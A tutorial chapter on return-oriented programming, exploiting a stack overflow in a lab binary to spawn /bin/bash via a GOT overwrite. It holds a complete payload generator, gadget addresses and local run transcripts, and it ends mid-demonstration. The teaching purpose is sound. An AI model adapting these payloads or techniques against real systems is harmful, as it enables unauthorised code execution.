

9.5. ROP Example¶
9.5.1. Kali setup¶
If using Debian Testing or Kali Linux (see Kali Linux Documentation), insure these packages are installed (including following Virtual environments via Miniconda and conda). (Note that distorm3 only worked in Python 2.)
INSTALL_DIR=$HOME/bin
mkdir -p $INSTALL_DIR
sudo apt install binutils -y
# To install conda see
# https://sbwasp.github.io/scripting/python.html#virtual-environments-via-miniconda-and-conda
conda create -n rop python=2 -y
source activate rop
pip install -U distorm3
sudo apt install gdb -y
sudo apt install socat -y
# 32-bit architecture needed on 64-bit Kali hosts
if [[ $(getconf LONG_BIT) == 64 ]]; then
sudo dpkg --add-architecture i386
sudo apt update
sudo apt install lib32z1 lib32ncurses5 -y
fi
# Install checksec
if [[ "$(which checksec)" == "" ]]; then
cd $INSTALL_DIR
git clone https://github.com/slimm609/checksec.sh.git git.checksec
ln -s git.checksec/checksec .
fi
# Install ropeme
if [[ "$(which ropshell.py)" == "" ]]; then
cd $INSTALL_DIR
git clone https://github.com/packz/ropeme.git git.ropeme
ln -s git.ropeme/ropeme/ropshell.py .
# Edit git.ropeme/ropeme/gadgets.py
# Change "import distorm" to "import distorm3 as distorm"
sed -i -e "s/import distorm/import distorm3 as distorm/" \
git.ropeme/ropeme/gadgets.py
fi
9.5.2. Finding the stack overflow¶
9.5.2.1. Finding the vulnerable program¶
To study ROP we’re going to assume a vulnerable program prog that conveniently enough:
Your recon has revealed a base64 encoded copy (
file) of the vulnerable program.Either the remote server admins are so incompetent as to allow access to a copy of their program, or it’s a well-known program you can obtain.
The program is running on a remote server at some port:
sudo -u nobody nohup socat tcp4-listen:8080,reuseaddr,fork exec:./prog > /tmp/nohup_8080 &You can safely simulate this locally by running:
sudo -u nobody socat tcp4-listen:8080,bind=127.0.0.1,reuseaddr,fork exec:./prog
Discover input 57 leads to unlimited buffer input:
# See its an ascii file, possibly base64 encoded file file head file # base64 decode it and see its an executable base64 -d file > prog file prog # So run it chmod +x prog echo "1" | ./prog echo "57\nbye bye" | ./prog
9.5.2.2. Analyze the program’s assembly code¶
9.5.2.2.1. Assembly code from objdump¶
objdump provides a complete listing of the ELF assembly:
objdump -M intel -s -S prog > prog.txt
Below you only see the .rodata section with the main and play routines. The program asks an initial question, and if you answer it correctly with “42” you are asked second question, the answer to which is seemingly ignored. Well, not quite. The answer to the second question is written to the stack, allowing a stack overflow.
Contents of section .rodata:
8048648 03000000 01000200 25730a25 730a2573 ........%s.%s.%s
8048658 0a25730a 3e200033 2e20536f 6d657468 .%s.> .3. Someth
8048668 696e6720 656c7365 20746f20 63686f6f ing else to choo
8048678 73653f3f 00322e20 4d6f7265 2063686f se??.2. More cho
8048688 69636573 3f00312e 2043686f 69636520 ices?.1. Choice
8048698 6f6e653f 0053656c 65637420 66726f6d one?.Select from
80486a8 20746865 206d656e 753f0025 64000a25 the menu?.%d..%
80486b8 730a0054 72792c20 7472792c 20747279 s..Try, try, try
80486c8 2c207468 696e6b20 6b657463 68757021 , think ketchup!
80486d8 000a2573 0a3e2000 416c6d6f 73742074 ..%s.> .Almost t
80486e8 68657265 202e2e2e 20657870 616e6420 here ... expand
80486f8 796f7572 20686f72 697a6f6e 732e0025 your horizons..%
8048708 73000000 4e6f7420 656e6f75 6768202e s...Not enough .
8048718 2e2e2079 6f75206d 75737420 7265616c .. you must real
8048728 6c792074 7279206d 6f726520 6265666f ly try more befo
8048738 72652079 6f757220 73756363 6573732e re your success.
8048748 00 .
Contents of section .got:
8049ff0 00000000 ....
Contents of section .got.plt:
8049ff4 289f0408 00000000 00000000 82830408 (...............
804a004 92830408 a2830408 b2830408 c2830408 ................
804a014 d2830408 ....
Contents of section .data:
804a018 00000000 00000000 ........
Disassembly of section .plt:
0804836c <__gmon_start__@plt-0x10>:
804836c: ff 35 f8 9f 04 08 push DWORD PTR ds:0x8049ff8
8048372: ff 25 fc 9f 04 08 jmp DWORD PTR ds:0x8049ffc
8048378: 00 00 add BYTE PTR [eax],al
...
0804837c <__gmon_start__@plt>:
804837c: ff 25 00 a0 04 08 jmp DWORD PTR ds:0x804a000
8048382: 68 00 00 00 00 push 0x0
8048387: e9 e0 ff ff ff jmp 804836c <_init+0x30>
0804838c <__libc_start_main@plt>:
804838c: ff 25 04 a0 04 08 jmp DWORD PTR ds:0x804a004
8048392: 68 08 00 00 00 push 0x8
8048397: e9 d0 ff ff ff jmp 804836c <_init+0x30>
0804839c <fflush@plt>:
804839c: ff 25 08 a0 04 08 jmp DWORD PTR ds:0x804a008
80483a2: 68 10 00 00 00 push 0x10
80483a7: e9 c0 ff ff ff jmp 804836c <_init+0x30>
080483ac <printf@plt>:
80483ac: ff 25 0c a0 04 08 jmp DWORD PTR ds:0x804a00c
80483b2: 68 18 00 00 00 push 0x18
80483b7: e9 b0 ff ff ff jmp 804836c <_init+0x30>
080483bc <__isoc99_scanf@plt>:
80483bc: ff 25 10 a0 04 08 jmp DWORD PTR ds:0x804a010
80483c2: 68 20 00 00 00 push 0x20
80483c7: e9 a0 ff ff ff jmp 804836c <_init+0x30>
080483cc <puts@plt>:
80483cc: ff 25 14 a0 04 08 jmp DWORD PTR ds:0x804a014
80483d2: 68 28 00 00 00 push 0x28
80483d7: e9 90 ff ff ff jmp 804836c <_init+0x30>
08048494 <main>:
8048494: 55 push ebp
8048495: 89 e5 mov ebp,esp
8048497: 83 e4 f0 and esp,0xfffffff0
# stack size 12w, 48b
804849a: 83 ec 30 sub esp,0x30
# word 12 = 0
804849d: c7 44 24 2c 00 00 00 mov DWORD PTR [esp+0x2c],0x0
80484a4: 00
# eax -> "%s.%s.%s.%s.> " (. is newline)
80484a5: b8 50 86 04 08 mov eax,0x8048650
# word 5 -> "3. Something else to choose??"
80484aa: c7 44 24 10 5f 86 04 mov DWORD PTR [esp+0x10],0x804865f
80484b1: 08
# word 4 -> "2. More choices?"
80484b2: c7 44 24 0c 7d 86 04 mov DWORD PTR [esp+0xc],0x804867d
80484b9: 08
# word 3 -> "1. Choice one?"
80484ba: c7 44 24 08 8e 86 04 mov DWORD PTR [esp+0x8],0x804868e
80484c1: 08
# word 2 -> "Select from the menu?"
80484c2: c7 44 24 04 9d 86 04 mov DWORD PTR [esp+0x4],0x804869d
80484c9: 08
# word 1 -> "%s.%s.%s.%s.> " (format)
80484ca: 89 04 24 mov DWORD PTR [esp],eax
# printf (output to console)
80484cd: e8 da fe ff ff call 80483ac <printf@plt>
# eax -> <stdout@@GLIBC_2.0>
80484d2: a1 20 a0 04 08 mov eax,ds:0x804a020
# put stdout on stack
80484d7: 89 04 24 mov DWORD PTR [esp],eax
# fflush stdout
80484da: e8 bd fe ff ff call 804839c <fflush@plt>
# eax ->"%d"
80484df: b8 b3 86 04 08 mov eax,0x80486b3
# edx -> word 12 of stack
80484e4: 8d 54 24 2c lea edx,[esp+0x2c]
# word 2 -> word 12 of stack
80484e8: 89 54 24 04 mov DWORD PTR [esp+0x4],edx
# word 1 -> "%d"
80484ec: 89 04 24 mov DWORD PTR [esp],eax
# scanf (input stdin)
80484ef: e8 c8 fe ff ff call 80483bc <__isoc99_scanf@plt>
# eax = input value
80484f4: 8b 44 24 2c mov eax,DWORD PTR [esp+0x2c]
# word 1 = input value
80484f8: 89 04 24 mov DWORD PTR [esp],eax
# call play(input value) (returns 0 or 1)
80484fb: e8 20 00 00 00 call 8048520 <play>
# and return value
8048500: 85 c0 test eax,eax
# if equal 0, silent return
8048502: 74 15 je 8048519 <main+0x85>
# eax -> ".%s." (. = newline)
8048504: b8 b6 86 04 08 mov eax,0x80486b6
# word 2 -> "Invalid selection puny human!"
8048509: c7 44 24 04 bb 86 04 mov DWORD PTR [esp+0x4],0x80486bb
8048510: 08
# word 1 -> ".%s." (. = newline)
8048511: 89 04 24 mov DWORD PTR [esp],eax
# call printf
8048514: e8 93 fe ff ff call 80483ac <printf@plt>
# eax = 0
8048519: b8 00 00 00 00 mov eax,0x0
# end program rc = 0
804851e: c9 leave
804851f: c3 ret
08048520 <play>:
8048520: 55 push ebp
8048521: 89 e5 mov ebp,esp
# stack size 70w, 280b
8048523: 81 ec 18 01 00 00 sub esp,0x118
# input = 42?
8048529: 83 7d 08 39 cmp DWORD PTR [ebp+0x8],0x39
# if no, return 1
804852d: 75 4c jne 804857b <play+0x5b>
# eax -> ".%s.> " (. = newline)
804852f: b8 d9 86 04 08 mov eax,0x80486d9
# word 2 -> "Almost there ... expand your horizons." (ends with newline)
8048534: c7 44 24 04 e0 86 04 mov DWORD PTR [esp+0x4],0x80486e0
804853b: 08
# word 1 -> ".%s.> " (. = newline)
804853c: 89 04 24 mov DWORD PTR [esp],eax
# printf
804853f: e8 68 fe ff ff call 80483ac <printf@plt>
# eax -> stdout
8048544: a1 20 a0 04 08 mov eax,ds:0x804a020
# stdout on stack
8048549: 89 04 24 mov DWORD PTR [esp],eax
# fflush
804854c: e8 4b fe ff ff call 804839c <fflush@plt>
# eax -> "%s"
8048551: b8 07 87 04 08 mov eax,0x8048707
# edx -> 107b in stack?
8048556: 8d 95 f9 fe ff ff lea edx,[ebp-0x107]
# word 2 -> 107b in stack
804855c: 89 54 24 04 mov DWORD PTR [esp+0x4],edx
# word 1 -> "%s"
8048560: 89 04 24 mov DWORD PTR [esp],eax
# scanf (can buffer overflow over stack)
8048563: e8 54 fe ff ff call 80483bc <__isoc99_scanf@plt>
# word 1 -> "Not enough ... you must really try more before your success."
8048568: c7 04 24 0c 87 04 08 mov DWORD PTR [esp],0x804870c
# puts
804856f: e8 58 fe ff ff call 80483cc <puts@plt>
# return 0
8048574: b8 00 00 00 00 mov eax,0x0
8048579: eb 05 jmp 8048580 <play+0x60>
# return 1
804857b: b8 01 00 00 00 mov eax,0x1
8048580: c9 leave
8048581: c3 ret
9.5.2.2.2. Finding the overflow¶
Let’s do a little address math. The answer to the program’s second question is stored starting at offset 0x107 (263 decimal) bytes into the stack. So the answer’s first 267 bytes clobbers the callee’s stack and the next 4 clobber the return address stored in the caller’s stack. So the stack looks like:
To verify this analysis, create a stack-based buffer overflow setting the return address to 0xfeedbeef. Running the program should result in a segfault at 0xfeedbeef. Here’s some code to answer the program’s second question with 267 X’s + 4 bytes = 0xfeedbeef. When the play routine tries to return to the caller, the overwritten stack return address of 0xfeedbeef is copied to the eip register, causing a SIGSEGV:
# Create input file for 0xfeedbeef SIGSEGV
perl -e 'print "57\n" . "X"x267 . "\xEF\xBE\xED\xFE"' > input
./prog < input
sudo dmesg | grep segfault | tail -n 1
Here’s the result of running the code:
hacker@kali:~$ ./prog < input
Select from the menu?
1. Choice one?
2. More choices?
3. Something else to choose??
>
Almost there ... expand your horizons.
> Not enough ... you must really try more before your success.
Segmentation fault
hacker@kali:~$ sudo dmesg | grep segfault | tail -n 1
[13009.861072] prog[9225]: segfault at feedbeef ip 00000000feedbeef sp 00000000ffc9ead0 error 14
9.5.3. Planning the exploit/payload¶
9.5.3.1. Background reading¶
You will need a basic understanding of executables and dynamic linking:
Computer Science from the Bottom Up covers binary files (Chapter 8. Behind the process) and the GOT table (Chapter 9. Dynamic Linking).
High level explanation on some binary executable security for an explanation of the terms used here.
GOT-PLT covers the PLT/GOT interaction with Partial RELRO.
9.5.3.2. Analyze the program with checksec¶
Use checksec.sh to analyze the binary for vulnerabilities:
checksec --file prog
Running the above results in:
hacker@kali:~$ checksec --file prog
RELRO STACK CANARY NX PIE RPATH RUNPATH FORTIFY Fortified Fortifiable FILE
Partial RELRO No canary found NX enabled No PIE No RPATH No RUNPATH No 0 2 prog
Here’s the good news:
- FORTIFY_SOURCE
- This compiled in buffer overflow check is not enabled.
- STACK CANARY
- Not enabled allowing stack buffer overflows.
- PIE
- Not enabled.
Here’s the good/bad news:
- RELRO (GOT-PLT)
- Partial RELRO, which allows GOT table overwrites.
Here’s the bad news:
- NX
- This forces us to use ROP.
It is our good fortune to not have stack canaries, so the stack overflow should work. We’ll use ROP (Return Oriented Programming) combined with GOT table overwrite to overcome NX and ASLR (Address Space Layout Randomization).
9.5.3.3. The outlines of ROP exploitation¶
So we’ll overwrite the GOT address for one of the libc routines with the address of execve. Let’s see what libc routines we can exploit.
file prog
# Get the libc version used locally
ldd prog
# What libc routines are available ...
readelf --relocs prog
Running these commands gives us:
hacker@kali:~$ file prog
prog: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.15, BuildID[sha1]=228f96f2cf7397f9078fd1f092709353abe98be6, not stripped
hacker@kali:~$ # Get the libc version used locally
hacker@kali:~$ ldd prog
linux-gate.so.1 (0xf7f09000)
libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7d08000)
/lib/ld-linux.so.2 (0xf7f0b000)
hacker@kali:~$ # What libc routines are available ...
hacker@kali:~$ readelf --relocs prog
Relocation section '.rel.dyn' at offset 0x2fc contains 2 entries:
Offset Info Type Sym.Value Sym. Name
08049ff0 00000106 R_386_GLOB_DAT 00000000 __gmon_start__
0804a020 00000705 R_386_COPY 0804a020 stdout@GLIBC_2.0
Relocation section '.rel.plt' at offset 0x30c contains 6 entries:
Offset Info Type Sym.Value Sym. Name
0804a000 00000107 R_386_JUMP_SLOT 00000000 __gmon_start__
0804a004 00000207 R_386_JUMP_SLOT 00000000 __libc_start_main@GLIBC_2.0
0804a008 00000307 R_386_JUMP_SLOT 00000000 fflush@GLIBC_2.0
0804a00c 00000407 R_386_JUMP_SLOT 00000000 printf@GLIBC_2.0
0804a010 00000507 R_386_JUMP_SLOT 00000000 __isoc99_scanf@GLIBC_2.7
0804a014 00000607 R_386_JUMP_SLOT 00000000 puts@GLIBC_2.0
The outline of a 2-stage attack is taking place: stage-0 will be what we call a “payload loader”: it’s job is to load the real payload (stage-1) into a fixed address in the .data elf section. Stage-0 has 2 steps: (1) use scanf to read stage-1 into .data section; (2) jump to the stage-1 payload via a leave instruction. Stage-1 will have 2 steps: (1) perform a GOT overwrite of the puts GOT entry to change it to execve; (2) call execve to change the program’s process to /bin/bash. You’ll see that some of these simple tasks are made harder by the fact that we cannot execute arbitrary instructions: we are reduced to using a highly limited selection of “gadgets” (little sections of code followed by a ret instruction). That makes some of the payload look a little tortuous.
9.5.3.4. Collecting libc information¶
The attack will call libc routines scanf and puts. scanf will be used to input the attack, while puts’s GOT entry will be overwritten with the address of execve so a call to puts will open up a shell. To exploit these routines we need their PLT addresses. Here we determine they are scanf = 0x080483bc and puts = 0x080483cc by simply running objdump -S -j .plt prog | egrep '(scanf@plt|puts@plt)':
hacker@kali:~$ # We can use scanf and puts
hacker@kali:~$ # so get their calling address.
hacker@kali:~$ objdump -S -j .plt prog | egrep '(scanf@plt|puts@plt)'
080483bc <__isoc99_scanf@plt>:
080483cc <puts@plt>:
scanf will be called in stage-0 to transfer the stage-1 attack code to the .data section. scanf will require 2 inputs: (1) the address of the “%s” format string, (2) the destination address in the .data segment. For (1), visually inspect the .rodata code listing to see the address of “%s” is 0x8048707. For (2), we show it is 0x0804a018 using either readelf or objdump:
hacker@kali:~$ readelf --sections prog | grep '\.data'
[23] .data PROGBITS 0804a018 001018 000008 00 WA 0 0 4
hacker@kali:~$ objdump -S -j .data prog | grep start
0804a018 <__data_start>:
We won’t be actually calling puts. Instead we’ll be using a technique called GOT overwrite to replace the address of puts with that of execve so that when puts is called, execve will actually be called.
But before we discuss GOT overwrite let’s take care of execve’s calling arguments. The first argument will be the string “/bin/bash” and will be will be read as part of stage-1 by the scanf call in stage-0. The other two arguments will be NULL pointers and a quick scan of the .rodata section shows it ending with a NULL at address 0x8048709.
9.5.3.5. GOT overwrite planning¶
The whole idea of GOT overwrite is to change the GOT pointer from one routine (puts) that you don’t need to use, to another (execve) that you would like to use. The difficulty is that with ASLR you don’t know execve’s address until the program is loaded, which your pre-load exploit code can’t know. However, for any given libc version, you do know the difference between puts’s address and execve’s address.
puts= libc start + offset(puts)
execve= libc start + offset(execve)
So we can compute
execve=puts+ offset(execve) - offset(puts)
The only catch is that the offset difference offset(execve) - offset(puts) varies with the libc version (seemingly increasing over time as code is added to libc). To avoid resorting to a brute-force attack, we’d have to know the target system’s libc. For now we’ll ignore this difficultly and focus on getting the attack to work locally where we do know the offsets.
We’ll need to overwrite puts’s GOT entry with the address of execve. The puts GOT table entry is ( __libc_start_main + offset(puts)). To change it to execve’s GOT table entry we just need to (1) locate puts’s GOT table address, then (2) add(offset(execve) - offset(puts)) to puts’s GOT entry to have execve called instead.
So we determine puts’s GOT table entry address = 0804a014 two ways. The simplest way is using a readelf 1-liner. But we also show how using gdb because it illustrates going from the PLT entry to the GOT entry, plus shows how to get the current actual address for puts. Note that both the GOT table entry and using gdb’s print puts command agree that for this particular run puts was loaded at 0xf7e3b160. Note this shows that the system lacks ASCII armoring as the address of puts = 0xf7e3b160 doesn’t have leading whitespace.
# readelf 1-liner
readelf --relocs prog | grep ' puts'
# gdb going through PLT to GOT
cat > GOT.in <<EOF
57
anything
EOF
cat > GOT.gdb <<EOF
# carefully choose breakpoint after puts called
break *0x804851e
run < GOT.in
# puts call
x/i 0x804856f
# plt call to got
x/i 0x80483cc
# got entry
x/x 0x804a014
# another way to get puts address
print puts
kill
quit
EOF
gdb --batch --command=GOT.gdb ./prog
Running these commands gives us:
hacker@kali:~$ cat > GOT.gdb <<EOF
> # carefully choose breakpoint after puts called
> break *0x804851e
> run < GOT.in
> # puts call
> x/i 0x804856f
> # plt call to got
> x/i 0x80483cc
> # got entry
> x/x 0x804a014
> # another way to get puts address
> print puts
> kill
> quit
> EOF
hacker@kali:~$ gdb --batch --command=GOT.gdb ./prog
Breakpoint 1 at 0x804851e
Select from the menu?
1. Choice one?
2. More choices?
3. Something else to choose??
>
Almost there ... expand your horizons.
> Not enough ... you must really try more before your success.
Breakpoint 1, 0x0804851e in main ()
0x804856f <play+79>: call 0x80483cc <puts@plt>
0x80483cc <puts@plt>: jmp *0x804a014
0x804a014 <puts@got.plt>: 0xf7e3b160
$1 = {<text variable, no debug info>} 0xf7e3b160 <puts>
Kill the program being debugged? (y or n) [answered Y; input not from terminal]
Next we determine (offset(execve) - offset(puts)) = 0x56cc0 below (at least on the author’s host, yours may be different). Since we’ll be doing this repeatedly please download libc-offset.sh and make it executable (chmod +x libc-offset.sh):
#!/usr/bin/env bash
# Compute offset(FUNC1) - offset(FUNC2)
[[ $# != 3 ]] && { echo "Usage: $0 PROG FUNC1 FUNC2"; exit; }
PROG=$1
FUNC1=$2
FUNC2=$3
# Get the libc filename
set $(ldd $PROG | grep 'libc.so' | head -n 1)
LIB=$3
# From there, get each function offset
set $(objdump -T $LIB | grep " $FUNC1$" | head -n 1)
printf -v O1 "0x%x" 0x$1
set $(objdump -T $LIB | grep " $FUNC2$" | head -n 1)
printf -v O2 "0x%x" 0x$1
# Output the offset difference in hex
printf "0x%x\n" $(( O1 - O2 ))
Then the offset is easily computed:
hacker@kali:~$ ./libc-offset.sh ./prog execve puts
0x56cc0
9.5.3.6. Finding ROP gadgets¶
We need some ROP gadgets (code snippets ending in ret) to carry out the required computations. Why gadgets? Remember that anywhere you can input data is writable but not executable memory. So you can’t input instructions, only addresses of instructions and the input arguments needed (if any). And since you place the instructions linearly in the same memory, those instruction addresses must be to code sections that actually return to your exploit list, hence ROP = return-oriented programming. What returns? Well, existing libc routines like scanf for one. That part of the exploit is known as return-to-libc. And addresses of instructions that happen to sit a little before a return instruction: those little code sections are called ROP gadgets. But it’s not easy locating those gadgets, hence we use ropeme for locating gadgets to use in a ROP exploit.
We break the exploit into 2 stages for one very important reason. The buffer overflow writes on the stack, and the stack’s address varies with each run. If we need to use a gadget with a leave instruction we’ll need to set ebp to the address to return in the stack. Also, we may want to call a couple of routines each of which need pointers to the addresses of arguments. If those arguments sit in the stack as part of the first buffer overflow, we don’t know their addresses. If, however, our first (stage-0) buffer overflow merely sets up a second (stage-1) buffer into into a known, fixed part of memory we can easily pass arguments as we know the addresses within that buffer.
stage-0 consists of a call to scanf which has 2 arguments so we need a gadget to pop 2 items off the stack. We also need a leave statement to set the esp stack pointer to the stage-1 buffer location. We choose the first of each of these
# Now use ropeme
source activate rop
ropshell.py
generate prog 4
search pop ? pop ?
search leave
search pop ebp
# manual control-d
Running these commands gives us:
hacker@kali:~$ source activate rop
(rop) hacker@kali:~$ ropshell.py
Simple ROP interactive shell: [generate, load, search] gadgets
ROPeMe> generate prog 4
Generating gadgets for prog with backward depth=4
It may take few minutes depends on the depth and file size...
Processing code block 1/1
Generated 86 gadgets
Dumping asm gadgets to file: prog.ggt ...
OK
ROPeMe> search pop ? pop ?
Searching for ROP gadget: pop ? pop ? with constraints: []
0x8048462L: pop ebx ; pop ebp ;;
0x8048627L: pop ebx ; pop ebp ;;
0x80485e7L: pop edi ; pop ebp ;;
ROPeMe> search leave
Searching for ROP gadget: leave with constraints: []
0x804836aL: leave ;;
0x8048491L: leave ;;
0x804851eL: leave ;;
ROPeMe> search pop ebp
Searching for ROP gadget: pop ebp with constraints: []
0x8048463L: pop ebp ;;
0x80485e8L: pop ebp ;;
0x80485f3L: pop ebp ;;
stage-1 presents more of a gadget selection challenge. We leave it up to the reader to find the easier gadgets. Here we explain the contortions we went through to update the GOT starting at the end of the GOT computations then deducing the preceding gadgets required. After a bit of search and contemplation, updating the GOT table would be done with the gadget
0x804845eL: add [ebx+0x5d5b04c4] eax ;;
This involved setting up ebx so that after doing unsigned 32-bit address additions we get [ebx+0x5d5b04c4] = 0x0804a008 (puts’s GOT address). This gadget pop ebx ; pop ebp sets ebx:
0x8048462L: pop ebx ; pop ebp ;;
Setting eax to 0x56cc0 = offset(execve) - offset(puts) proved a bit more challenging as that value has whitespace (NULL) characters which would terminate scanf input leaving the rest of stage-1 unread. So after noticing the instruction
0x8048459L: add eax 0x804a024 ; add [ebx+0x5d5b04c4] eax ;;
we did the following:
- first set eax = offset - 0x0804a024 - 0x0804a024 - 0x0804a024. Now eax does not have any whitespace;
- then we would run the above gadget 3 times to get eax back to offset.
However, that gadget also had a side effect of adding eax to the address [ebx+0x5d5b04c4]. Rather than spraying bits “somewhere”, we set ebx = stage1addr - 0x5d5b04c4. Then [ebx+0x5d5b04c4] = stage1addr, which is the (unused) first word of stage-1.
Note
Subtracting 0x0804a024 works for the observed value of offset. However, other offset values may not be so lucky. The exploit could be modified to compute the number of subtractions (if any) needed to avoid the “bad characters” that would terminate buffer input. In this case the number of following add ROP gadgets must be adjusted, and the offset of subsequent addresses in the buffer must also be adjusted. We leave this as a learning exercise for the reader.
Finally, the only gadget to pop eax has a leave instruction:
0x8048368L: pop eax ; pop ebx ; leave ;;
The leave instruction means we have to set ebp to keep executing in our stage-1 buffer.
9.5.4. Payload¶
9.5.4.1. Generating the payload¶
Here is the actual exploit, which must vary between local libc’s due to the offsets changing in libc between different versions. It overcomes NX, ASLR and ASCII-Armor mapping. The technique uses ROP, ret-to-libc to bypass NX, and resolves libc address at runtime to bypass ASLR.
The stage-0 loader transfers the actual stage-1 payload to the custom stack using scanf and ROP gadgets. The stage-0 loader is constructed to reuse data bytes in the vulnerable program to generate the payload. At the end of stage-0 we switch the stack frame to our custom stack in the .data segment and execute the actual stage-1 payload from there. The actual payload (stage-1) executes ROP gadgets to set up the final execve call.
This is the python program that creates the exploit code, it’s one input being offset(execve) - offset(puts) computed by the libc-offset.sh script provided in the previous section. Download create-payload.py and make it executable (chmod +x create-payload.py):
#!/usr/bin/env python
import argparse
import struct
parser = argparse.ArgumentParser(description="Create buffer overflow")
parser.add_argument("offset", help="hex offset value")
args = parser.parse_args()
# ******************************************************************************
# ******************************************************************************
# Piece together the exploit string as a python list.
# The offset value input is embedded below in the list.
# ******************************************************************************
# ******************************************************************************
def p(addr):
return struct.pack('<l', addr)
offset = int(args.offset, 16)
# Choose the stage1addr >= .data section address 0x0804a018
stage1addr = 0x0804aa24
# puts@plt 0x080483cc ==> GOT entry 0x0804a014
puts_PLT = 0x080483cc
puts_GOT = 0x0804a014
exploit = []
# ******************************************************************************
# First question answer
# ******************************************************************************
exploit.append("57\n" )
# ******************************************************************************
# Stage 0 buffer
# ******************************************************************************
# Fill up callee stack
exploit.append("X"*267)
# Call scanf to copy stage 1 into .data
# scanf address = 0x080483bc
exploit.append(p(0x080483bc))
# Get rid of 2 scanf arguments, gadget 0x8048462L: pop ebx ; pop ebp ;;
exploit.append(p(0x8048462))
# 1st arg = 0x08048707, pointer to %s
exploit.append(p(0x08048707))
# 2nd arg = stage1addr, pointer into .data
exploit.append(p(stage1addr))
# After scanf, use leave to switch to stage 1 just read in
# pop .data address into ebp so leave will set esp to stage 1 in .data
# use gadget 0x8048463L: pop ebp ;; to pop .data
exploit.append(p(0x8048463))
exploit.append(p(stage1addr))
# use gadget 0x804836aL: leave ;; to branch to stage 1
# key to this is that .data is at a fixed address
exploit.append(p(0x804836a))
exploit.append("\n")
# ******************************************************************************
# Stage 1 buffer at stage1addr
# ******************************************************************************
# Stage 0 leaves to get here, so this is pop'ed into ebp
# Later on this is used as the target of an add instruction
exploit.append(p(0x01010101))
# First change puts GOT to execve GOT
# tricks needed to get around needing gadget with leave (which updates esp)
# use gadget 0x8048463L:
# pop ebp ;; to set up ebp to value after leave instruction
exploit.append(p(0x8048463))
# This points to "after-leave" ahead
exploit.append(p(stage1addr+4*6))
# use gadget 0x8048368L:
# pop eax ; pop ebx ; leave ;; to setup eax and ebx for add
exploit.append(p(0x8048368))
# libc offsets goes here with subtractions to avoid whitespace in value
# NOTE: subtracting 3 times avoids whitespace for the values we've seen.
# For extra credit, compute the number of subtractions required and
# modify the following code to handle a variable number of subtractions
# and the resulting moving of address offsets below.
exploit.append(p(offset - 0x0804a024 - 0x0804a024 - 0x0804a024))
# set ebx to start of .data minus a constant: stage1addr - 0x5d5b04c4
exploit.append(p(stage1addr-0x5d5b04c4))
# target after-leave = stage1addr + 4*6
exploit.append("junk")
# now correct eax by 3 times doing gadget 0x8048459L:
# add eax 0x804a024 ; add [ebx+0x5d5b04c4] eax ;;
# NOTE: number of adds should match number of subtractions above.
exploit.append(p(0x8048459))
exploit.append(p(0x8048459))
exploit.append(p(0x8048459))
# now set up ebx using gadget 0x8048462L:
# pop ebx ; pop ebp ;;
exploit.append(p(0x8048462))
# set ebx to GOT entry address - 0x5d5b04c4
exploit.append(p(puts_GOT - 0x5d5b04c4))
# junk for ebp
exploit.append("junk")
# gadget to store GOT update 0x804845eL:
# add [ebx+0x5d5b04c4] eax ;;
exploit.append(p(0x804845e))
# Call execve as puts after GOT rewrite
exploit.append(p(puts_PLT))
# the function isn't returning
exploit.append("junk")
# 1st argument is pointer to target bash = "/bin/bash"
# NOTE: if computed number of adds above, this address must be adjusted.
exploit.append(p(stage1addr+4*19))
# 2nd argument is argument array (pointer to NULL 0x8048748)
exploit.append(p( 0x8048748))
# 3rd argument is environment array (pointer to NULL ...)
exploit.append(p(0x8048748))
# Here goes "/bin/bash"
# Target bash = = stage1addr + (4*19)
# NOTE: if computed number of adds above, refs to this address must be adjusted.
exploit.append("/bin/bash")
# ******************************************************************************
# ******************************************************************************
# Print out the exploit string
# ******************************************************************************
# ******************************************************************************
outstring = "".join(exploit)
print(outstring)
exit()
9.5.4.2. Running the exploit locally¶
Here is the first of 2 examples of running the exploit on your local host. First you can save the python program’s output to a file, then cat FILE - | ./prog to run the exploit. We show here 3 code blocks to be cut-&-pasted into a terminal window. The first kicks off the exploit which moves from a terminal with a prompt to a prompt-less subshell:
# Create the input file using scripts provided
./create-payload.py $(./libc-offset.sh ./prog execve puts) > input
# Show PPID and processes before execve
echo $PPID
ps -ef | grep bash
# Run the exploit and now no prompt -
# .bashrc not run in subshell
# Also note now in a different process
cat input - | ./prog
Running the above gets this:
(rop) hacker@kali:~$ # Create the input file using scripts provided
(rop) hacker@kali:~$ ./create-payload.py $(./libc-offset.sh ./prog execve puts) > input
(rop) hacker@kali:~$
(rop) hacker@kali:~$ # Show PPID and processes before execve
(rop) hacker@kali:~$ echo $PPID
3345
(rop) hacker@kali:~$ ps -ef | grep bash
hacker 3352 3345 0 17:43 pts/0 00:00:00 -bash
hacker 3442 3345 0 17:43 pts/1 00:00:00 -bash
hacker 7317 3345 0 22:17 pts/2 00:00:00 -bash
hacker 7933 3352 0 22:48 pts/0 00:00:00 grep bash
(rop) hacker@kali:~$
(rop) hacker@kali:~$ # Run the exploit and now no prompt -
(rop) hacker@kali:~$ # .bashrc not run in subshell
(rop) hacker@kali:~$ # Also note now in a different process
(rop) hacker@kali:~$ cat input - | ./prog
Select from the menu?
1. Choice one?
2. More choices?
3. Something else to choose??
>
Almost there ... expand your horizons.
> Not enough ... you must really try more before your success.
At this point we’re in a prompt-less subshell. From there we’ll demo a new $PPID and show the extra bash shells:
echo $PPID
ps -ef | grep bash
whoami
pwd
exit
Running the above gets this:
echo $PPID
3352
ps -ef | grep bash
hacker 3352 3345 0 17:43 pts/0 00:00:00 -bash
hacker 3442 3345 0 17:43 pts/1 00:00:00 -bash
hacker 7317 3345 0 22:17 pts/2 00:00:00 -bash
hacker 7935 3352 0 22:48 pts/0 00:00:00 [bash]
hacker 7961 7935 0 22:50 pts/0 00:00:00 grep bash
whoami
hacker
pwd
/home/hacker
exit
Now show we’re back in the original shell. Show that with these commands:
# All done, execve terminated
echo $PPID
ps -ef | grep bash
Running the above gets this:
# All done, execve terminated
